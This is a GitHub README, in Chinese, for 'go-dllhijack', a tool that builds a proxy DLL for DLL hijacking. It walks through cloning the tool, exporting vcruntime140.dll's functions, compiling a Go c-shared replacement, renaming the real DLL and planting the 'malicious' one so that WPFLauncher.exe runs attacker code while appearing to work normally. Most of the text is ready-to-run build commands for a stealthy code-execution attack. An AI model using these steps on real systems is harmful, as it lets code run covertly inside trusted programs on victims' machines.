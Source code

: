 # go-dllhijack
##基于go的简单劫持方法
————————————————————————
#使用
###在使用前请确保你系统上有GoLang python MinGW

##以vcruntime140.dll为例
```sh
git clone https://github.com/famei/go-dllhijack
pip install pefile
python def.py vcruntime140.dll
```
#会得到以下输出


###将输出的内容复制到win.def内
###新建一个bat脚本
```bat
dlltool --output-exp win.exp --input-def win.def
set GOOS=windows
set GOARCH=386
set CGO_ENABLED=1
go build -buildmode=c-shared -o vcruntime140.dll -ldflags="-extldflags=-Wl,{文件夹绝对路径}\win.exp -s -w"
```
###会得到一个vcruntime140.dll文件
将正常的vcruntime140.dll重命名为_vcruntime140.dll
将恶意的vcruntime140.dll和_vcruntime140.dl放在同一目录

这里用WPFLauncher.exe作为演示
双击WPFLauncher.exe程序正常运行 恶意代码被成功执行



